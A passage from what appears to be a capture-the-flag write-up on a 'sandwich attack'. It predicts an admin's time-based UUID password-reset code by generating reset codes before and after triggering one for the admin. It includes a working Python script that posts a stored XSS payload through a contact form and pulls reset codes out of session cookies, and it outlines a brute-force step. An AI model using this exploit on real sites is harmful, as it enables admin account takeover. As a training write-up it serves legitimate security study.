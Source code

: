 All UUIDs of this version are incremental with time if they are generated on same machine. Meaning, if we have a UUID generated on time A and have another UUID generated on time B on the same machine, then we can generate all potential UUIDs from time A to time B.

So if we register a user and get 2 reset codes for him, one before malicious post request on `/contact` and one after it, we can be sure that the reset code for *admin* user will be present in between the 2 UUIDs we generated for our user.

How can we launch this sandwich attack in our case?
1) Make a new user.
2) Get 1st reset code for our user.
3) Submit a malicious contact query to trigger reset code for *admin* user.
4) Get 2nd reset code for our user.
5) Generate all UUIDs between our first and second reset code.
6) Launch a brute force attack on `/reset/password/<reset_code>` endpoint with all generated UUIDs to change the password of *admin* user.

## Exploitation (!)

First, let's make a new user, get 1st reset code for that user, then send a malicious POST request on `/contact` endpoint to trigger reset code for *admin* and then get a 2nd reset code for our user.

```python
import requests, base64, json, os

IP = '<CHALLENGE_SERVER>'
PORT = '1337'

# Creating new user
requests.post('http://'+IP+':'+PORT+'/register', data='username=test&email=test@test.com&password=123', headers={'Content-type':'application/x-www-form-urlencoded'})

# Login with new user and trigger the reset code
session = requests.Session()
session.post('http://'+IP+':'+PORT+'/', data='username=test&password=123', headers={'Content-type':'application/x-www-form-urlencoded'})
session.get('http://'+IP+':'+PORT+'/resetcode')
cookie = session.cookies.get('session')
rc1 = json.loads(base64.b64decode(cookie[0:cookie.index('.')]+'==').decode('utf-8'))['reset_code']

# Now sending our XSS payload to trigger reset code for admin user 
requests.post('http://'+IP+':'+PORT+'/contact', data='name=123&email=a@a.com&msg=<script>fetch(\'http://127.0.0.1:1337/resetcode\')</script>', headers={'Content-type':'application/x-www-form-urlencoded'})

# Again fetching new reset code for our user
session.get('http://'+IP+':'+PORT+'/resetcode')
cookie = session.cookies.get('session')
rc2 = json.loads(base64.b64decode(cookie[0:cookie.index('.')]+'==').decode('utf-8'))['reset_code']

print("[+] First reset code: " + rc1)
print("[+] Second reset code: " + rc2)
```
